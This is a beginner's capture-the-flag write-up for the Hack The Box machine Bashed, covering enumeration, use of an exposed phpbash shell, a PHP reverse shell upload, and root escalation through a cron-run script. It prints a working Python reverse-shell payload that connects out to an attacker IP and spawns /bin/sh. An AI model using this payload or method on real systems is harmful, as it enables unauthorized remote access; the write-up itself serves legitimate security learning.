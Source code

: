# Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (579).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (397).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (621) (1) (1).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (638).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (346).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (339) (1) (1).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (643) (1).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (433) (1) (1).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.

![](<../../.gitbook/assets/image (523).png>)

![](<../../.gitbook/assets/image (651).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (515) (1).png>)

![](<../../.gitbook/assets/image (544).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (499).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (402) (1).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (703).png>)

![](<../../.gitbook/assets/image (522).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (584).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (630) (1).png>)

When I ran linpeas (not shown in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (479).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (587).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (614) (1) (1).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (668).png>)

![](<../../.gitbook/assets/image (562).png>)
